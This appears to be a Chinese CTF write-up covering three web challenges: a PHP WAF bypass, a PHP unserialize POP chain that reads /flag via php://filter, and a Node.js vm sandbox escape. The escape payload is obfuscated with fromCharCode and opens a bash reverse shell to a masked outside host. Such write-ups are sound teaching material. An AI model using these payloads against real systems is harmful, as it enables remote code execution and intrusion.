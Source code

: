 
### ezrce
#无参rce 
```php
<?php  
function waf($poc)  
{  
    if(preg_match("/[0-9]|get_defined_vars|getallheaders|next|prev|end|array_reverse|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $poc)){  
        echo "hacker! you die!<br/>";  
        return "666";  
    }  
    return $poc;  
}
```

使用session_start绕过waf限制

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230603120816.png)

### ezpop

```php
<?php  
highlight_file(__FILE__);  
  
class night  
{  
    public $night;  
  
    public function __destruct(){  
        echo $this->night . '哒咩哟';  
    }  
}  
  
class day  
{  
    public $day;  
  
    public function __toString(){  
        echo $this->day->go();  
    }  
  
    public function __call($a, $b){  
        echo $this->day->getFlag();  
    }  
}  
  
  
class light  
{  
    public $light;  
  
    public function __invoke(){  
        echo $this->light->d();  
    }  
}  
  
class dark  
{  
    public $dark;  
  
    public function go(){  
        ($this->dark)();  
    }  
  
    public function getFlag(){  
        include(hacked($this->dark));  
    }  
}  
  
function hacked($s) {  
    if(substr($s, 0,1) == '/'){  
        die('呆jio步');  
    }    $s = preg_replace('/\.\.*/', '.', $s);    $s = urldecode($s);    $s = htmlentities($s, ENT_QUOTES, 'UTF-8');  
    return strip_tags($s);  
}  
  
$un = unserialize($_POST['‮⁦快给我传参⁩⁦pop']); // throw new Exception('seino');


```

复制代码到本地编辑器发现参数里存在unicode反转字符
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230603131102.png)


```php
<?php
class night{
    public $night;
}
class day{
    public $day;

}
class dark{
    public $dark;
}
class light{
    public $light;
}
$a=new night();
$b=new day();
$c=new dark();
$d=new light();
$e=new day();
$f=new dark();
$a->night=$b;
$b->day=$c;
$c->dark=$d;
$d->light=$e;
$e->day=$f;
$f->dark="php://filter/read=convert.base64-encode/resource=/flag";
echo(serialize($a));
```

传参
`%E2%80%AE%E2%81%A6%E5%BF%AB%E7%BB%99%E6%88%91%E4%BC%A0%E5%8F%82%E2%81%A9%E2%81%A6=<序列化后的数据>`



### Esc4pe_T0_Mong0
#js_jali

*source*
```js
//const { MongoClient } = require("mongodb");
//const client = new MongoClient("mongodb://localhost:27017/");

const vm = require('vm');

const express = require("express");
const bodyParser = require('body-parser');
const app = express();

const isValidCode = (code) => {
    const isLengthValid = code.length < 365;
    const isASCII = /^[\x20-\x7e]+$/.test(code);
    const containsInvalidChars = /[.\[\]{}\s;`'"/\\_<>?:]/.test(code);
    const doesNotContainImport = !code.toLowerCase().includes("import");
    const doesNotContainUnescape = !/%(?:d0|d1|%[89abAB][0-9a-fA-F])/.test(code);

    return (
      isLengthValid &&
      isASCII &&
      !containsInvalidChars &&
      doesNotContainImport &&
      doesNotContainUnescape
    );
};

app.use(bodyParser.json());

app.get('/', function (req, res) {
    res.sendFile( __dirname + "/static/index.html" );
});

app.get('/readfile', function (req, res) {
    res.sendFile( __dirname + "/app.js" );
});

app.get('/exec', (req, res) => {
    const code = req.query.code;
    if (!code) {
        res.status(400).json({ error: 'Code is required.' });
        return;
    }

    if (isValidCode(code)) {
        try {
            const sandbox = {};
            const script = new vm.Script(code);
            const result = script.runInNewContext(sandbox);
            res.json({ result });
        } catch (err) {
            res.status(400).json({ error: err.message });
        }
    } else {
        res.status(400).json({ error: 'you cant bypass my vm best waf!' });
        return;
    }
});

//app.get('/getflag', function (req, res) {
//    todo...
//});

app.listen(3000, () => console.log(`nodeapp listening on http://localhost:3000`));
```

可以看到在沙箱里执行了命令,需要逃逸

---



```js
with(String)with(f=fromCharCode,this)with(constructor)with(constructor(f(r=114,e=101,t=116,117,r,110,32,p=112,r,111,c=99,e,s=115,s))())with(mainModule)with(require(f(c,h=104,105,108,100,95,p,r,111,c,e,s,s)))exec(f(98,97,s,h,32,45,c,32,34,98,97,s,h,32,45,105,32,62,38,32,47,100,e,118,47,t,c,p,47,X,X,46,X,X,X,46,X,X,46,X,X,X,47,X,X,X,X,32,48,62,38,b,34))
```

感觉我的vps长度不够啊,12位ip地址+5位端口

> • with() - 它用于环境对象。它接受一个对象作为参数,并将该对象的属性添加到当前作用域。这就允许代码访问with()语句中的对象的属性,而不使用对象名称。在这个例子中,它用来访问构造函数。
> 
> • fromCharCode() - 它用来从ASCII码生成字符串。在这个例子中,它生成了恶意命令的字符。
> 
> • mainModule 和 require() - 它们用于访问Node.js模块。require()用于加载模块,mainModule指向主模块。
> 
> • constructor - 构造函数,它用来创建新对象。在这个例子中,它用于创建一个新对象,以便使用with()语句。
> 
> • exec() - 它用于执行 shell命令。在这个例子中,它执行了反向Shell命令。
> 
> 总的来说,这段代码主要是利用了JavaScript的 with()语句、fromCharCode()函数来生成命令字符串,然后使用require()和exec()这些Node.js API来执行该命令。通过这样的手法,它试图规避检测和隐藏其真实目的。

后面就靠wp脑补了

```shell
#打开mongodb服务
service mongodb start
#启动!
mongo
#查看数据库
show databases
#可以看到secret库,拿下!
```

